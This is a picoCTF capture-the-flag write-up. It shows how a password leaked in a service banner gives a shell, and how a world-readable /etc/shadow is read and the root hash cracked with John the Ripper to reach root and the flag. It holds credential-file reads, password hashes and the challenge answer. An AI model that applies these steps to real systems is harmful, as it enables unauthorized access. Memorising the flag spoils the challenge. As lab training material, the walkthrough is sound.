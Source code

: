 # dont-you-love-banners

## General

### Can you abuse the banner? The server has been leaking some crucial information on tethys.picoctf.net 56016. Use the leaked information to get to the server.  To connect to the running application, use nc tethys.picoctf.net 62001. From the above information abuse the machine and find the flag in the /root directory.

Based on the text, we need to go to port 56016 first.  It doesn't prompt to use `nc`, but when I'm given a host and port, it's my go-to.

```sh
$ nc tethys.picoctf.net 56016
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234

```

Excellent, the password is right there. Off to the other endpoint.

```sh
$ nc tethys.picoctf.net 62001
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
```
Wait! You didn't say there would be a quiz! :rage:

```sh
What is the top cyber security conference in the world?
DefCon
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$ 
```
W00t!  [John Draper](https://en.wikipedia.org/wiki/John_Draper) is also known as Captain Crunch.  Know your hacker history!  

Alright!  We have a prompt.

```sh
player@challenge:~$ whoami
whoami
player
player@challenge:~$ pwd
pwd
/home/player
player@challenge:~$ ls -la
ls -la
total 20
drwxr-xr-x 1 player player   20 Mar  9  2024 .
drwxr-xr-x 1 root   root     20 Mar  9  2024 ..
-rw-r--r-- 1 player player  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 player player 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 player player  807 Apr  4  2018 .profile
-rw-r--r-- 1 player player  114 Feb  7  2024 banner
-rw-r--r-- 1 root   root     13 Feb  7  2024 text
player@challenge:~$ cat banner  
cat banner
*************************************
**************WELCOME****************
*************************************
player@challenge:~$ cat text
cat text
keep digging
player@challenge:~$ ls -l /root
ls -l /root
total 8
-rwx------ 1 root root   46 Mar 12  2024 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7  2024 script.py
player@challenge:~$ cat /root/script.py
cat /root/script.py
```
```python
import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt
```

Nothing obvious there.  The next step is to start looking for misconfigurations.

There was no /etc/crontab, and no executable that's overly permissive.

```sh
$ crontab -e
crontab -e
-su: crontab: command not found

$ find / -type f -perm -04000 2>/dev/null
find / -type f -perm -04000 2>/dev/null
/bin/mount
/bin/su
/bin/umount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign

```
Fingers crossed....

```sh
player@challenge:~$ ls -l /etc/shadow
ls -l /etc/shadow
-rw-r--r-- 1 root shadow 855 Mar  9  2024 /etc/shadow
player@challenge:~$ cat /etc/shadow
cat /etc/shadow
root:$6$6QFbdp2H$R0BGBJtG0DlGFx9H0AjuQNOhlcssBxApM.CjDEiNzfYkVeJRNy2d98SDURNebD5/l4Hu2yyVk.ePLNEg/56DV0:19791:0:99999:7:::
[REDACTED Entries Without Password Hash To Save Space]
player:$6$BCCW51fi$UI/5W01uG2.6EmxktMtZXbJQwrgDlv213cLwu7RxaIQHnRZXwKZ3yjuyNKf86KlSwbvAOp3YozpNVrBeKW9Ls0:19791:0:99999:7:::
```

Yes!  Note: /etc/shadow should never be readable by anyone but root!  The /etc/shadow file is where Linux stores the hashed password value.  That hash value for the root password follows 'root:'.  
Based on the '$6$', you can find that this is a SHA512 hash.  

A hash is a one-way algorithm.  In this case, it converts a plaintext password to something completely different (and hopefully unique).  Once the password is hashed, the system has no means of knowing what the password was.  When you log in and supply your password, the system hashes the value you submit and compares it with the value stored in the file.  If it matches, you gave the correct password.  This is good and bad.  The downside is that the value I input will always return the same hashed output.  The good part is that if you use a unique password, it's unlikely to be found in a list of leaked passwords. These lists are frequently used with password crackers like HashCat or John the Ripper.  For this exercise, we'll use the latter, but both have their pros and cons.  We'll use a password list called rockyou.txt.  This password list was created from a data breach of the company [RockYou](https://en.wikipedia.org/wiki/RockYou).  It contains over 14 million unique passwords pulled from that breach.

I copied the root line from /etc/shadow into a file called root_pw.txt

```sh
$ john -w=/usr/share/wordlists/rockyou.txt root_pw.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 ASIMD 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 10 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iloveyou         (root)     
1g 0:00:00:00 DONE (2025-06-25 15:59) 7.692g/s 4923p/s 4923c/s 4923C/s 123456..pebbles
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

:joy: :joy:

Now to switch to the root user:

```sh
player@challenge:~$ su - root
su - root
Password: iloveyou

root@challenge:~# cat /root/flag
root@challenge:~# cat /root/flag.txt
cat /root/flag.txt
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_f7608541}
```

**picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_f7608541}**
